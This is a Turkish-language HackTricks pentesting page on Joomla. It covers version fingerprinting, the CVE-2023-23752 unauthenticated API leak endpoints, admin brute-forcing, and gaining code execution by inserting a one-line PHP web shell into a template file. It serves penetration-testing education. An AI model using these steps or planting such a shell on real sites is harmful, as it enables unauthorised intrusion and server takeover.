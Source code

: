 # Joomla

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

### Joomla İstatistikleri

Joomla, Joomla kurulumlarında kullanılan Joomla, PHP ve veritabanı sürümleri ile sunucu işletim sistemlerinin dağılımı gibi bazı anonim [kullanım istatistiklerini](https://developer.joomla.org/about/stats.html) toplar. Bu veriler, kamuya açık [API](https://developer.joomla.org/about/stats/api.html) aracılığıyla sorgulanabilir.
```bash
curl -s https://developer.joomla.org/stats/cms_version | python3 -m json.tool

{
"data": {
"cms_version": {
"3.0": 0,
"3.1": 0,
"3.10": 6.33,
"3.2": 0.01,
"3.3": 0.02,
"3.4": 0.05,
"3.5": 12.24,
"3.6": 22.85,
"3.7": 7.99,
"3.8": 17.72,
"3.9": 27.24,
"4.0": 3.21,
"4.1": 1.53,
"4.2": 0.82,
"4.3": 0,
"5.0": 0
},
"total": 2951032
}
}
```
## Enumeration

### Discovery/Footprinting

* **meta**'yı kontrol et
```bash
curl https://www.joomla.org/ | grep Joomla | grep generator

<meta name="generator" content="Joomla! - Open Source Content Management" />
```
* robots.txt
```
# If the Joomla site is installed within a folder
# eg www.example.com/joomla/ then the robots.txt file
# MUST be moved to the site root
# eg www.example.com/robots.txt
# AND the joomla folder name MUST be prefixed to all of the
# paths.
[...]
```
* README.txt
```
1- What is this?
* This is a Joomla! installation/upgrade package to version 3.x
* Joomla! Official site: https://www.joomla.org
* Joomla! 3.9 version history - https://docs.joomla.org/Special:MyLanguage/Joomla_3.9_version_history
* Detailed changes in the Changelog: https://github.com/joomla/joomla-cms/commits/staging
```
### Versiyon

* **/administrator/manifests/files/joomla.xml** dosyasında versiyonu görebilirsiniz.
* **/language/en-GB/en-GB.xml** dosyasında Joomla'nın versiyonunu alabilirsiniz.
* **plugins/system/cache/cache.xml** dosyasında yaklaşık bir versiyonu görebilirsiniz.

### Otomatik
```bash
droopescan scan joomla --url http://joomla-site.local/
```
In[ **80,443 - Pentesting Web Methodology, Joomla'yı tarayabilen CMS tarayıcıları hakkında bir bölüm vardır**](./#cms-scanners).

### API Kimlik Doğrulaması Olmadan Bilgi Sızdırma:

4.0.0 ile 4.2.7 arasındaki sürümler, kimlik doğrulaması olmadan bilgi sızdırma (CVE-2023-23752) açığına sahiptir ve bu, kimlik bilgilerini ve diğer bilgileri dökebilir.

* Kullanıcılar: `http://<host>/api/v1/users?public=true`
* Konfigürasyon Dosyası: `http://<host>/api/index.php/v1/config/application?public=true`

**MSF Modülü**: `scanner/http/joomla_api_improper_access_checks` veya ruby script: [51334](https://www.exploit-db.com/exploits/51334)

### Kaba Kuvvet

Giriş bilgilerini kaba kuvvetle denemek için bu [script](https://github.com/ajnik/joomla-bruteforce)'i kullanabilirsiniz.
```shell-session
sudo python3 joomla-brute.py -u http://joomla-site.local/ -w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -usr admin

admin:admin
```
## RCE

Eğer **admin kimlik bilgilerini** elde etmeyi başardıysanız, **RCE elde etmek için** içine bir **PHP kodu** parçası ekleyerek **RCE** yapabilirsiniz. Bunu **şablonu özelleştirerek** yapabiliriz.

1. `Configuration` altında sol altta **`Templates`** üzerine **tıklayın** ve şablonlar menüsünü açın.
2. Bir **şablon** adına **tıklayın**. `Template` sütun başlığı altında **`protostar`** seçelim. Bu bizi **`Templates: Customise`** sayfasına götürecek.
3. Son olarak, **sayfa kaynağını** açmak için bir sayfaya tıklayabilirsiniz. **`error.php`** sayfasını seçelim. **Kod yürütmek için bir PHP tek satır ekleyeceğiz**:
1. **`system($_GET['cmd']);`**
4. **Kaydet ve Kapat**
5. `curl -s http://joomla-site.local/templates/protostar/error.php?cmd=id`

## XSS'den RCE'ye

* [**JoomSploit**](https://github.com/nowak0x01/JoomSploit): Joomla Sömürü Scripti, **XSS'yi RCE veya Diğer Kritik Güvenlik Açıklarına Yükseltir**. Daha fazla bilgi için [**bu gönderiyi**](https://nowak0x01.github.io/papers/76bc0832a8f682a7e0ed921627f85d1d.html) kontrol edin. **Joomla Sürümleri 5.X.X, 4.X.X ve 3.X.X için destek sağlar ve şunları yapmanıza olanak tanır:**
* _**Yetki Yükseltme:**_ Joomla'da bir kullanıcı oluşturur.
* _**(RCE) Yerleşik Şablonları Düzenleme:**_ Joomla'daki Yerleşik Şablonları düzenler.
* _**(Özel) Özel Sömürü:**_ Üçüncü Taraf Joomla Eklentileri için Özel Sömürü.

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
